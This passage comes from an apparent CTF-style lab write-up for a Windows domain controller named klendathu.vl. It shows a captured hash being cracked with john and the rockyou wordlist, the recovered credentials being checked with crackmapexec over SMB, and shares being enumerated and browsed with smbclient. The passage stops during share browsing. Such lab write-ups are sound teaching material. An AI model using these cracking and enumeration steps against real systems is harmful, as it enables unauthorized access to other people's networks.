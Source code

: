 let use john for if its crackable and got our first creds.


    ➜  kelndathu john zim.hash --wordlist=/usr/share/wordlists/rockyou.txt 
    Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
    Use the "--format=md5crypt-long" option to force loading these as that type instead
    Using default input encoding: UTF-8
    Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
    Will run 6 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    
    <redacted>       (?) 

okey we got our first creds. i will try directly with crackmapexec on smb protocol. 


    ➜  kelndathu crackmapexec smb dc1.klendathu.vl -u zim -p <redacted>
    SMB         klendathu.vl    445    DC1              [*] Windows Server 2022 Build 20348 x64 (name:DC1) (domain:KLENDATHU.VL) (signing:True) (SMBv1:False)
    SMB         klendathu.vl    445    DC1              [+] KLENDATHU.VL\zim:<redacted> 
    ➜  kelndathu crackmapexec smb dc1.klendathu.vl -u zim -p <redacted> --shares
    SMB         klendathu.vl    445    DC1              [*] Windows Server 2022 Build 20348 x64 (name:DC1) (domain:KLENDATHU.VL) (signing:True) (SMBv1:False)
    SMB         klendathu.vl    445    DC1              [+] KLENDATHU.VL\zim:<redacted> 
    SMB         klendathu.vl    445    DC1              [+] Enumerated shares
    SMB         klendathu.vl    445    DC1              Share           Permissions     Remark
    SMB         klendathu.vl    445    DC1              -----           -----------     ------
    SMB         klendathu.vl    445    DC1              ADMIN$                          Remote Admin
    SMB         klendathu.vl    445    DC1              C$                              Default share
    SMB         klendathu.vl    445    DC1              HomeDirs        READ            
    SMB         klendathu.vl    445    DC1              IPC$            READ            Remote IPC
    SMB         klendathu.vl    445    DC1              NETLOGON        READ            Logon server share 
    SMB         klendathu.vl    445    DC1              SYSVOL          READ            Logon server share 

we have an access HomeDirs shares let see whats going on here

    ➜  kelndathu smbclient \\\\dc1.klendathu.vl\\HomeDirs -U zim
    Password for [WORKGROUP\zim]:
    Try "help" to get a list of possible commands.
    smb: \> ls
    .                                   D        0  Wed Apr 10 20:58:10 2024
    ..                                DHS        0  Mon Apr 15 12:09:19 2024
    CLEA                                D        0  Wed Apr 10 20:58:09 2024
    DUNN                                D        0  Wed Apr 10 20:58:03 2024
    JENKINS                             D        0  Fri Apr 12 21:32:21 2024
    SHUJUMI                             D        0  Wed Apr 10 20:57:12 2024

                    6099199 blocks of size 4096. 2596492 blocks available
    smb: \> cd CLEA\
    smb: \CLEA\> ls
    NT_STATUS_ACCESS_DENIED listing \CLEA\*
    smb: \CLEA\> cd ../DUNN\
    smb: \DUNN\> ls
    NT_STATUS_ACCESS_DENIED listing \DUNN\*
